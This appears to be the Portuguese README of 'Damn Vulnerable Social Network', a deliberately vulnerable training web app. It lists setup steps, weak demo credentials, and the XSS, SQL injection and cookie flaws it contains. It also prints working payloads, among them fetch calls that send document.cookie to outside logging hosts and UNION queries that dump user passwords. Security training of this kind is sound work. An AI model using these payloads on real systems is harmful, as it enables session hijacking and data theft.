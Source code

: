 # Damn Vulnerable Social Network

Uma aplicação vulnerável indicada para testes e entendimento de conceitos de segurança em Aplicações WEB

Requisitos:
- Java 17
- Node 19
- Docker
- Docker Compose
- Postgres instalado. (Caso não tenha o Docker e Docker Compose)

## Rodar a aplicação

### 1. Subir o banco de dados utilizando o Docker Compose. Rodar o comando abaixo na pasta raíz do projeto.
```
docker-compose up
```

### 2. Criação do banco de dados.

- Entrar na pasta **dvsn** e executar o script:
```bash
$ ./create-database.sh
```

### 3. Entrar na pasta do front (dvsn-client) e dar build no projeto, para que os arquivos sejam colocados ná pasta estática da api.

NPM:
```
npm install
npm build
```
YARN:
```
yarn
yarn build
```

### 4. Abrir o IntelliJ e rodar a aplicação.
Main Class -> RootApplication.java

## Usuários disponíveis
|Email|Hash Senha|Senha|Admin|
|-|-|-|-|
|bob@mail.com|0acf4539a14b3aa27deeb4cbdf6e989f|michael|Sim|
|jimi@mail.com|061fba5bdfc076bb7362616668de87c8|lovely|Não|
|jim@mail.com|5f4dcc3b5aa765d61d8327deb882cf99|password|Não|
|amy@mail.com|d8578edf8458ce06fbc5bb76a58c5ca4|qwerty|Não|
|janis@mail.com|46f94c8de14fb36680850768ff1b7f2a|123qwe|Não|



## Comandos extras:
Gerar certificado para o servidor apache2.
```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

## Assuntos abordados:

- OWASP TOP 10
- XSS
- CSRF
- Cookies (HttpOnly, Secure, SameSite)
- Alguns cuidados com LocalStorage e SessionStorage
- Como manter componentes/frameworks/libs seguras e atualizadas
- Cabeçalhos CSP e X-Frame-Options

## Software Composition Analysis (SCA)
- NodeJS/JavaScript: <a href="https://www.npmjs.com/package/yarn-audit-html">yarn audit html report</a>

## Vulnerabilidades
- SQL Injection
    - Login
    - Pesquisa de usuários
- XSS
    - Reflected
        - /hello?nome=Bob
    - DOM
        - Filtro na listagem de POSTS
    - Stored
        - Comentários dos posts    
- Cookie
    - É apenas um base64 e a aplicação confia no que o cliente envia.

fetch('https://servidor-de-log.free.beeceptor.com/todos?cookie=' +  document.cookie)
fetch('http://logger.crescer.lab/?cookie=' +  document.cookie)

## Payloads:
- XSS
```html
<img src="a" onerror="alert('XSS')" />
```
- SVG
```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```
- SQL Injection (Login)
- SQL Injection (Lista de usuários)
```sql
' union select 1, '2', '3', '4', '5', '6', 1, now(), now()--
```
```sql
' union select floor(random() * 1000), '2', table_name, '4', '5', '6', 1,now(), now() from information_schema.tables where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), table_name, column_name, '4', '5', '6', 1,now(), now() from information_schema.columns where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), '2', string_agg(column_name,','), '4', '5', '6', 1,now(), now() from information_schema.columns where table_name = 'usuario'--
```
```sql
' union select floor(random() * 1000), '2', concat(email,' ' ,senha), '4', '5', '6', 1,now(), now() from usuario--
```

https://github.com/payloadbox/sql-injection-payload-list
- CSS Injection
/hello?nome=Teste#red;margin-left:50px;background-image:url('http://localhost:8080/favicon.ico')
- expression(document.write('<iframe src=" .= "http://hacker.com?cookie=' + document.cookie.escape() + " />'))
background-image: url(javascript:alert('XSS'))
https://www.mediawiki.org/wiki/Preventing_XSS_Attacks_through_CSS_Whitelisting

## TODO
- <s>Prevenção de XSS configurável.</s>
- <s>Prevenção de SQL Injection configurável.</s>
- <s>Adicionar XSS em SVG e CSS.</s>
- <s>Validar tipos de autenticação e adicionar Token Opaco.</s>
- Adicionar cabeçalhos CSP e X-Frame-Options configuráveis.
- Adicionar certificados SSL.


## Exemplos de vulnerabilidades:
- <a href="https://security.snyk.io/vuln/SNYK-JS-MATERIALIZECSS-2324800">XSS materialize-css</a>

## Referências
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval
https://github.com/payloadbox/xss-payload-list
